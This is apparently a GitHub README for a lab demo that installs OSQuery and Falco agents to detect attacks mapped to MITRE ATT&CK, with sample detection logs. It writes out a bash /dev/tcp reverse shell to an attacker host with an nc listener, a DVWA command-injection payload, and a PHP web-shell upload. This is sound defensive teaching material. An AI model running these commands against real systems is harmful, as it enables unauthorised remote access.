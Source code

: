 # Goals
This demo setups OSQuery and Falco agents on a Linux server to hunt cybersecurity threats. Rules map to MITRE's Attack Framework.

# Prerequisites
- A Linux server running Ubuntu 20.04, installed Ansible and docker

# Steps
## 1. Install OSQuery and Falco agents 
```bash
ansible-playbook install.yaml
```

## 2. Testing
- target host: ip=192.168.3.103, hostname=h3 (installed OSQuery and Falco)
- attacker host: ip=192.168.3.104, hostname=h4

Run exploit code and monitor logs

### 2.1 Create reverse shell
```bash
# attacker
vagrant@h4:~$ nc -nvlp 8080

Listening on 0.0.0.0 8080
Connection received on 192.168.3.103 40466
vagrant@h3:~$ id
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
vagrant@h3:~$


# target
vagrant@h3:~$ bash -i >& /dev/tcp/192.168.3.104/8080 0>&1
```

```bash
tail -f /var/log/osquery/osqueryd.results.log

{"name":"behavioral_reverse_shell","hostIdentifier":"h3","calendarTime":"Mon May  2 06:05:14 2022 UTC","unixTime":1651471514,"epoch":0,"counter":0,"numerics":false,"columns":{"cmdline":"bash -i","cwd":"/home/vagrant","gid":"1000","name":"bash","parent":"14158","parent_cmdline":"-bash","path":"/usr/bin/bash","pid":"29283","remote_address":"192.168.3.104","remote_port":"8080","root":"/","start_time":"1651470912","uid":"1000"},"action":"added"}
```

### 2.2 Exploit DVWA vulnerabilities
```bash
# run DVWA app on the target host
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

Access DWVA web and exploit:

***command-injection:***
![](screenshots/dvwa-command-injection.png)

***file-upload:*** 
download yaps.php file from https://github.com/Nickguitar/YAPS
![](screenshots/dvwa-file-upload.png)

```bash
tail -f /var/log/osquery/osqueryd.results.log

{"name":"blacklist_process_events","hostIdentifier":"h3","calendarTime":"Mon May  2 04:52:14 2022 UTC","unixTime":1651467134,"epoch":0,"counter":0,"numerics":false,"columns":{"cid":"3991","cmdline":"ping -c 4","cwd":"/var/www/html/vulnerabilities/exec","duration":"272668","exit_code":"0","gid":"33","ntime":"566756435645000","parent":"28239","path":"/bin/ping","pid":"28240","probe_error":"0","syscall":"exec","tid":"28240","uid":"33"},"action":"added"}
{"name":"blacklist_process_events","hostIdentifier":"h3","calendarTime":"Mon May  2 04:52:14 2022 UTC","unixTime":1651467134,"epoch":0,"counter":0,"numerics":false,"columns":{"cid":"3991","cmdline":"id","cwd":"/var/www/html/vulnerabilities/exec","duration":"229619","exit_code":"0","gid":"33","ntime":"566756437328111","parent":"28239","path":"/usr/bin/id","pid":"28241","probe_error":"0","syscall":"exec","tid":"28241","uid":"33"},"action":"added"}

{"name":"blacklist_socket_events","hostIdentifier":"h3","calendarTime":"Mon May  2 05:40:45 2022 UTC","unixTime":1651470045,"epoch":0,"counter":1,"numerics":false,"columns":{"cid":"3991","duration":"157961","exit_code":"18446744073709551501","family":"2","fd":"11","gid":"33","local_address":"","local_port":"0","ntime":"569684542775889","parent":"29024","path":"/usr/sbin/apache2","pid":"29028","probe_error":"0","protocol":"0","remote_address":"192.168.3.104","remote_port":"8080","syscall":"connect","tid":"29028","type":"1","uid":"33"},"action":"added"}




tail -f /var/log/syslog

May  2 08:19:00 h3 falco: 15:19:00.902174435: Debug Shell spawned by untrusted binary (user=www-data user_loginuid=-1 shell=sh parent=apache2 cmdline=sh -c ping  -c 4 ; id pcmdline=apache2 -k start gparent=apache2 ggparent=<NA> aname[4]=<NA> aname[5]=<NA> aname[6]=<NA> aname[7]=<NA> container_id=2453035f32e7 image=vulnerables/web-dvwa)
```

# References:
Threat Hunting Methodologies:
- https://attack.mitre.org
- https://paraflare.com/attack-lifecycle-detection-of-an-operational-technology-breach/
- https://pberba.github.io/security/2021/11/22/linux-threat-hunting-for-persistence-sysmon-auditd-webshell/

Tools:
- https://osquery.io
- https://falco.org

Rule set:
- https://github.com/palantir/osquery-configuration/
- https://github.com/teoseller/osquery-attck/
- https://github.com/bfuzzy/auditd-attack

